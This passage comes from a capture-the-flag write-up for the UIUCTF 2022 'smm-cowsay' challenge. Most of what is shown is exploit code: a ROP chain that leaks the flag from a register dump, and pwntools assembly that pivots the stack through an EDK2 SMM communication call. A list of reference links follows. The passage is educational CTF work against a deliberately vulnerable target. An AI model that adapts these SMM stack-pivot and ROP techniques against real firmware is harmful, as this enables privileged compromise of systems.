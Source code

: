 ```python
    # Read flag into RAX and then let everything chain
    # crash to simply leak it from the register dump
    0x7ee8222 , # pop rsi ; ret (do not mess up RAX with sub/add)
    0x0       , # -> RSI
    0x7fc123d , # pop rdx ; ret (do not mess up RAX with sub/add)
    0x0       , # -> RDX
    0x7ee82fe , # pop rdi ; ret
    0x44440000, # -> RDI (flag address)
    0x7ff7b2c , # mov rax, qword ptr [rdi] ; sub rsi, rdx ; add rax, rsi ; ret
]
```

### Putting it all together

We can now write the real ROP chain into our allocated buffer (let's say at
`buffer + 0x800` just to be safe), load the gadget for flipping the stack into
R14, the address of the new stack (i.e. `buffer + 0x800`) into R15, and go for
the kill.

```python
# Transform real ROP chain into .quad directives to
# easyly embed it in the shellcode:
#
#   .quad 0x7f8a184
#   .quad 0x80000033
#    ...
real_chain_size = len(real_chain) * 8
real_chain      = '.quad ' + '\n.quad '.join(map(str, real_chain))

code = asm(f'''
    /* Copy data into allocated buffer */
    lea rsi, qword ptr [rip + data]
    mov rdi, {buffer}
    mov rcx, {0x18 + len(payload)}
    cld
    rep movsb

    /* Copy real ROP chain into buffer + 0x800 */
    lea rsi, qword ptr [rip + real_chain]
    mov rdi, {buffer + 0x800}
    mov rcx, {real_chain_size}
    cld
    rep movsb

    /* Communicate(mSmmCommunication, buffer, NULL) */
    mov rcx, {mSmmCommunication}
    mov rdx, {buffer}
    xor r8, r8
    mov rax, {Communicate}

    /* These two regs will spill on SMI stack */
    mov r14, 0x7fe5269         /* pop rsp; ret */
    mov r15, {buffer + 0x800}  /* -> RSP */
    call rax

    test rax, rax
    jnz fail
    ret

fail:
    ud2

real_chain:
    {real_chain}
```

[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31